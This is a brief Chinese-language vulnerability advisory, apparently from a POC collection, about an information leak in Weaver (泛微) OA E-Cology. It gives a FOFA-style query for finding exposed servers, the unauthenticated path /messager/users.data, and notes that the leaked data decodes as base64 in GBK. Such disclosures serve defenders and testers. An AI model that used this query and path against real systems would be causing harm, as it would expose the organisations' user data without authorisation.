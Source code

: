 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面

![image-20220520134158756](./images/202205201341810.png)

验证POC

```
/messager/users.data
```

![image-20220520134209598](./images/202205201342693.png)

base64 GBK解码